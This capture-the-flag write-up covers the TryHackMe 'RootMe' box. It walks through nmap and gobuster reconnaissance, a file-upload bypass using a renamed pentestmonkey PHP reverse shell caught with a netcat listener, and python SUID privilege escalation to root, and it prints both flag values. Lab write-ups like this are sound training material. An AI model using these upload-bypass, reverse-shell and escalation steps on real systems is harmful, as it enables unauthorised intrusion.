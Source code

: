 # Root Me Box
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, netcat

**nmap**: network exploration tool and security / port scanner<br>
```
nmap [Scan Type...] [Options] {target specification}
```
Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

**nc**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```
--------------------------------------------------------------------
## GIVEN INFO

**IP Address**: 10.10.142.72<br>
**Internal Virtual IP Address**: 10.6.40.234

--------------------------------------------------------------------
## PROCEDURE

### 1. FIND EXPOSED SERVICES

**TOOLS**: nmap

```
nmap -sV -oN nmap.txt 10.10.142.72
```

![nmap](./imgs/nmap.png)

**PORTS OPEN** =<br>
22 (TCP) ssh, <br>
80 (TCP) http <br>

**APACHE VERSION** = 2.4.29

--------------------------------------------------------------------

### 2. FIND HIDDEN DIR On WEB SERVER

**TOOLS**: gobuster

```
gobuster dir -u http://10.10.142.72 -w /usr/share/wordlists/dirb/common.txt
```
dir: directory brute force<br>
-u: website<br>
-w: wordlist 

![gobuster](./imgs/gobuster.png)

--------------------------------------------------------------------

### 3. GET A SHELL

**TOOLS**: netcat

Get shell code from pentestmonkey. Change file ext to php5 so we can bypass file upload restriction
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php payload.php5
```

Change IP address to your IP address and upload file

```
nc -nlvp 4444
```

-n: number only<br>
-l: listen mode<br>
-v: verbose<br>
-p: port<br>

Go to http://10.10.142.72/uploads/ and click on payload.php5

![shell](./imgs/shell.png)

```
find / -name user.txt
```

![flag](./imgs/flag.png)

USER.TXT CONTENT: THM{y0u_g0t_a_sh3ll}

--------------------------------------------------------------------

### 4. PRIVILEGE ESCALATION

```
find / -user root -perm /4000 2>/dev/null
```
Find root user with SUID permission (4000)<br>
2>/dev/null gets rid of all the "Permission Denied" hits

FILE: /usr/bin/python

![SUID](./imgs/SUID.png)

All the other files listed are always accessible to all users so not exploitable

Steps for privilege escalation with python SUID:
https://gtfobins.github.io/gtfobins/python/#suid

```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
find / -name root.txt
```

ROOT.TXT CONTENT: THM{pr1v1l3g3_3sc4l4t10n}
